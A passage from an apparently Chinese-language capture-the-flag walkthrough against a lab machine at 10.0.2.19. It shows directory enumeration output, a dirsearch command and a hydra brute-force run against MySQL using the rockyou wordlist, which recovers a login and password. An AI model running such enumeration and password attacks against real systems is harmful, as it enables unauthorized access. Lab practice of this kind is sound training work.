 ```css
/images               (Status: 301) [Size: 307] [--> http://10.0.2.19/images/]
/css                  (Status: 301) [Size: 304] [--> http://10.0.2.19/css/]
/js                   (Status: 301) [Size: 303] [--> http://10.0.2.19/js/]
/server-status        (Status: 403) [Size: 274]
Progress: 220560 / 220561 (100.00%)
```

```bash
dirsearch -u http://10.0.2.19 -e* -i 200,300-399
```

```css
[04:24:59] Starting: 
[04:25:00] 301 -  303B  - /js  ->  http://10.0.2.19/js/
[04:25:16] 200 -    1KB - /contact.html
[04:25:17] 301 -  304B  - /css  ->  http://10.0.2.19/css/
[04:25:23] 200 -  809B  - /images/
[04:25:23] 301 -  307B  - /images  ->  http://10.0.2.19/images/
[04:25:24] 200 -  491B  - /js/
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404041747933.png" alt="image-20240404162630524" style="zoom:33%;" />

可能存储到数据库，可以尝试xxs，但是这个靶场感觉不是这么弄的，要么找到mysql的密码，要么爆破出来，hydra还在跑，去搜集一下别的信息：

这个apache版本就不像是想让我们利用中间件漏洞进行攻击的。。。。

去做点别的事情，等待爆破吧，搞安全的要有耐心（狗头.jpg）

```bash
┌──(kali💀kali)-[~]
└─$ hydra -l trainerjeff -P /usr/share/wordlists/rockyou.txt mysql://10.0.2.19
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-04-04 04:21:47
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking mysql://10.0.2.19:3306/
[STATUS] 12.00 tries/min, 12 tries in 00:01h, 14344387 to do in 19922:46h, 4 active
[STATUS] 12.00 tries/min, 36 tries in 00:03h, 14344363 to do in 19922:44h, 4 active
[STATUS] 12.00 tries/min, 84 tries in 00:07h, 14344315 to do in 19922:40h, 4 active
[STATUS] 12.00 tries/min, 180 tries in 00:15h, 14344219 to do in 19922:32h, 4 active
[STATUS] 12.00 tries/min, 372 tries in 00:31h, 14344027 to do in 19922:16h, 4 active
[3306][mysql] host: 10.0.2.19   login: trainerjeff   password: soccer1
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-04-04 05:06:10
```

得到了账号密码：
